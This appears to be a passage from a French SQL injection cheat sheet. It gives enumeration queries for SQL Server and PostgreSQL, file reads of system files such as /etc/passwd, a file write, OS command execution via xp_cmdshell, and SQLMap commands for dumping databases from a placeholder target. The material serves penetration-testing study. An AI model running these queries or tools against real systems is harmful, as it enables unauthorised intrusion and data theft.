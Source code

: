 ### SQL Server
```sql
-- Informations système
SELECT @@version
SELECT SYSTEM_USER
SELECT DB_NAME()
SELECT HOST_NAME()

-- Énumération des bases
SELECT name FROM sys.databases

-- Énumération des tables
SELECT name FROM sys.tables

-- Énumération des colonnes
SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('users')

-- Lecture de fichiers
SELECT BulkColumn FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_CLOB) AS Contents

-- Exécution de commandes (si xp_cmdshell activé)
EXEC xp_cmdshell 'whoami'
```

### PostgreSQL
```sql
-- Informations système
SELECT version()
SELECT current_user
SELECT current_database()

-- Énumération des bases
SELECT datname FROM pg_database

-- Énumération des tables
SELECT tablename FROM pg_tables WHERE schemaname='public'

-- Énumération des colonnes
SELECT column_name FROM information_schema.columns WHERE table_name='users'

-- Lecture de fichiers
SELECT pg_read_file('/etc/passwd')

-- Écriture de fichiers
COPY (SELECT 'content') TO '/tmp/test.txt'
```

## 🔧 Outils d'Exploitation

### SQLMap
```bash
# Détection automatique
sqlmap -u "http://target.com/page?id=1" --dbs

# Avec données POST
sqlmap -u "http://target.com/login" --data="username=admin&password=pass" -p password

# Avec cookies
sqlmap -u "http://target.com/page?id=1" --cookie="SESSIONID=abc123"

# Dump d'une base spécifique
sqlmap -u "http://target.com/page?id=1" -D database_name --tables
```